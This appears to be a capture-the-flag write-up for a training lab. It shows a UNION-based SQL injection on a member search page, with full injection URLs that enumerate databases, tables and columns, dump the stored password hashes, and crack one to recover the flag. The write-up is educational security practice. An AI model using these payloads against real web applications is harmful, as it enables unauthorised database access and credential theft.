 # Sql_Injection_basic

The GET parameter in the member search form is vulnerable to sql Sql_Injection_basic

## Method

Go to the member search page (<http://192.168.1.102/?page=member>)  
In the search field search '1 and 1 = 1' (which shows you that the form is vulnerable)

## Manipulation

### getting current database name and listing all databases

```

http://192.168.1.102/?page=member&id=42 union select database(), schema_name from information_schema.schemata&Submit=Submit

```

#### result

```

ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : information_schema
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_Brute_Force
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_Sql_Injection
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_guestbook
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_images
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_survey

```

which shows that the current database is Member_Sql_Injection, the other databases are Member_Brute_Force, Member_guestbook, Member_images, Member_survey

### getting a list of tables in current database

http://192.168.1.102/?page=member&id=42 union select table_name, create_time from information_schema.tables where table_schema=database()&Submit=Submit

#### result

```
ID: 42 union select table_name, create_time from information_schema.tables where table_schema=database()
First name: users
Surname : 2015-09-16 15:55:03

```

which shows that the database has a table called users

### listing all column names and types

http://192.168.1.102/?page=member&id=42 union select column_name, column_type from information_schema.columns where table_schema=database()&Submit=Submit

#### result

```

ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: user_id
Surname : int(11)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: first_name
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: last_name
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: town
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: country
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: planet
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: Commentaire
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: countersign
Surname : varchar(255)

```

which shows that we have the columns user_id, first_name, last_name, town, country, planet, Commentaire, countersign

### getting the password information

http://192.168.1.102/?page=member&id=42 union select Commentaire, countersign from users&Submit=Submit

#### result

```

ID: 42 union select Commentaire, countersign from users
First name: Amerca !
Surname : 2b3366bcfd44f540e630d4dc2b9b06d9
ID: 42 union select Commentaire, countersign from users
First name: Ich spreche kein Deutsch.
Surname : 60e9032c586fb422e2c16dee6286cf10
ID: 42 union select Commentaire, countersign from users
First name: ????? ????????????? ?????????
Surname : e083b24a01c483437bcf4a9eea7c1b4d
ID: 42 union select Commentaire, countersign from users
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28

```

You can see that it gives us this helpful part that says Decrypt this password -> then lower all the char. Sh256 on it and it's good
We then follow this instruction to get the flag we need.

## How to get the flag

Decode the hash 5ff9d0165b4f92b14994e5c685cdce28 using the md5.gromweb.com website.  
Which gives us the original string "FortyTwo"  
lower all characters and as per the instructions Sh256 of fortytwo is 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5  
We now have the flag (10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5)